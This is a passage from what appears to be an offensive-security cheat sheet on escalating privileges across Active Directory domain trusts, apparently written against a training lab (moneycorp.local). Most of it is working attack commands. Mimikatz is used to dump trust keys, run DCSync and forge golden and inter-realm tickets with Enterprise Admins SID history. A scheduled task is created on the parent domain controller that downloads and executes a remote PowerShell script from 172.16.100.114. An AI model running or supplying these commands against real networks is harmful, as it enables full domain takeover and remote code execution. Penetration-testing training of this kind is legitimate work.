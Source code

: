 Also, notice that there are **2 trusted keys**, one for _Child --> Parent_ and another one for P\_arent --> Child\_.

```bash
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:7ef5be456dc8d7450fb8f5f7348746c5 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
/domain:<Current domain>
/sid:<SID of current domain>
/sids:<SID of the Enterprise Admins group of the parent domain>
/rc4:<Trusted key>
/user:Administrator
/service:<target service>
/target:<Other domain>
/ticket:C:\path\save\ticket.kirbi
```

For finding the **SID** of the **"Enterprise Admins"** group you can find the **SID** of the **root domain** and set it in S-1-5-21\_root domain\_-519. For example, from root domain SID _S-1-5-21-280534878-1496970234-700767426_ the "Enterprise Admins"group SID is _S-1-5-21-280534878-1496970234-700767426-519_

[http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)

```bash
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local 
 .\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi
 ls \\mcorp-dc.moneycorp.local\c$
```

Escalate to DA of root or Enterprise admin using the KRBTGT hash of the compromised domain:

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local
schtasks /create /S mcorp-dc.moneycorp.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "STCheck114" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck114"
```

### External Forest Domain Privilege escalation

In this case you can **sign with** the **trusted** key a **TGT impersonating** the **Administrator** user of the current domain. In this case you **won't always get Domain Admins privileges in the external domain**, but **only** the privileges the Administrator user of your current domain **was given** in the external domain.
